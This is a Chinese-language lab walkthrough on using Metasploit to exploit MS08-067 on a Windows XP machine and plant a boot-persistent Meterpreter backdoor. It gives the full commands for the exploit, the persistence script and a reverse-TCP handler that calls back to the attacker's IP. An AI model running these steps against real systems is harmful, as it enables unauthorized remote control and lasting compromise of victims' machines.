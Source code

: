 
# Meterpreter后门种植

# 简介
Metasploit有一个Meterpreter脚本persistence.rb，它将创建一个Meterpreter服务，即使远程系统重新启动，也可以使用该服务在控制了被攻击机之后，通过 kali 的攻击脚本persistence.rb直接将脚本写入到被攻击机，并修改注册表，使得后门开机后自动运行，然后通过kali的handler进行连接，最后获得meterpreter通道


# 创建后门的过程

## 环境准备
攻击机：kali      ip：192.168.1.149<br />目标机：winxp  ip：192.168.1.6


## 操作步骤
1、先攻击得到meterpreter([这里可以使用ms08-067](https://www.yuque.com/xmtxsec/misc/szaees))并执行run persistence命令创建后门<br />（1）先攻击得到meterpreter
```
msf5 > use exploit/windows/smb/ms08_067_netapi
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 192.168.1.6
msf5 exploit(windows/smb/ms08_067_netapi) > set target 34
msf5 exploit(windows/smb/ms08_067_netapi) > exploit
```
<br />![](https://img-blog.csdnimg.cn/20200604161846906.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=SBmyM&originHeight=268&originWidth=737&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

（2）创建后门
```
meterpreter > run persistence -X -i 5 -p 2000 -r 192.168.1.149 
X指定启动的方式为开机自启动
-i反向连接的时间间隔(5s) 
–r 指定攻击者的ip
```
<br />![](https://img-blog.csdnimg.cn/20200604161953187.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=MNaGl&originHeight=329&originWidth=730&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

2、对后门进行利用<br />（1）再打开一个kali终端并运行msfconsole
```
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.1.149
msf5 exploit(multi/handler) > set LPORT 2000   ----注意这里的端口号和上面命令中端口号一致
```
<br />![](https://img-blog.csdnimg.cn/2020060416233153.png#crop=0&crop=0&crop=1&crop=1&id=w5jN8&originHeight=156&originWidth=734&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

2、XP关机<br />![](https://img-blog.csdnimg.cn/20200604162448365.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ0Mjc2NzQx,size_16,color_FFFFFF,t_70#crop=0&crop=0&crop=1&crop=1&id=v7mGb&originHeight=249&originWidth=527&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

3、运行exploit<br />msf5 exploit(multi/handler) > exploit   ---开始侦听<br />![](https://img-blog.csdnimg.cn/20200604162535914.png#crop=0&crop=0&crop=1&crop=1&id=O9QWy&originHeight=85&originWidth=548&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

4、启动XP，观察exploit的运行情况，可以看到得到一个meterpreter，后门种植是成功的<br />![](https://img-blog.csdnimg.cn/2020060416270798.png#crop=0&crop=0&crop=1&crop=1&id=R8Dor&originHeight=151&originWidth=737&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

5、获取目标机的控制权限<br />meterpreter > shell<br />![](https://img-blog.csdnimg.cn/20200604162852291.png#crop=0&crop=0&crop=1&crop=1&id=IPpf2&originHeight=141&originWidth=738&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

到此后门种植成功并成功利用，当攻击机处于侦听状态时，目标机开机运行会自动反弹一个连接到攻击机。
